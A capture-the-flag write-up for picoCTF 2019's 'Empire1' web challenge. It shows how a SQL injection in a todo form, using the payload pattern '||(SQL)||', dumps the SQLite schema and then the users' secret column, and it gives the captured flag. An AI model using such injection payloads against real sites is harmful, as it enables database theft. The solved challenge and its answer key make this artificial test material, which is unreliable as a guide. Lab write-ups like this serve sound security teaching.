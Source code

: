 # Empire1

Point: 400

## Category

Web Exploitation

## Question

Psst, Agent 513, now that you're an employee of Evil Empire Co., try to get their secrets off the company website. https://2019shell1.picoctf.com/problem/37779/ [(link)](https://2019shell1.picoctf.com/problem/37779/) Can you first find the secret code they assigned to you? or http://2019shell1.picoctf.com:37779

## Hint

* Pay attention to the feedback you get 
* There is *very* limited filtering in place - this to stop you from breaking the challenge for yourself, not for you to bypass.
* The database gets reverted every 2 hours if you do break it, just come back later

## Solution

After registered and signed in, we've seen a nav bar with `Add a Todo`, `Your Todos`, `Employee Listing`. It doesn't seem to contain any vulnerability. 

Trying to add something to `TODO`, we've got this
```bash
<h1 class="page-header">Things You Gotta Do</h1>
	<ul class="list-unstyled">	
	<div class="row">
		<div class="col-md-6">
			<div class="well well-sm">
				<li>
				<strong>Very Urgent:</strong> Hello
				</li> 
			</div>
		</div>
	</div>
```
We've seen `The "Very Urgent:" prefix is automatically prepended to any text provided by the user.`
After trying different strategies, I found that the page is vulnerable to SQL injection using the following syntax: 
`'||(SQL)||'`

The first time, I've tried with `' || (SELECT group_concat(sql) FROM sqlite_master) || '`, then we got this

```bash
CREATE TABLE user ( id INTEGER NOT NULL, username VARCHAR(64), name VARCHAR(128), password_hash VARCHAR(128), secret VARCHAR(128), admin INTEGER, PRIMARY KEY (id) ),CREATE UNIQUE INDEX ix_user_username ON user (username),CREATE TABLE todo ( id INTEGER NOT NULL, item VARCHAR(256), user_id INTEGER, PRIMARY KEY (id), FOREIGN KEY(user_id) REFERENCES user (id) )
```

I saw `secret VARCHAR(128)`, then I tried `' || (SELECT group_concat(secret) FROM user) || '`. BOOM!, go to `Your Todos` tab, we got the flag `Very Urgent: Likes Oreos.,Know it all.,picoCTF{wh00t_it_a_sql_injecta4dfbd62}`

## Flag

picoCTF{wh00t_it_a_sql_injecta4dfbd62}
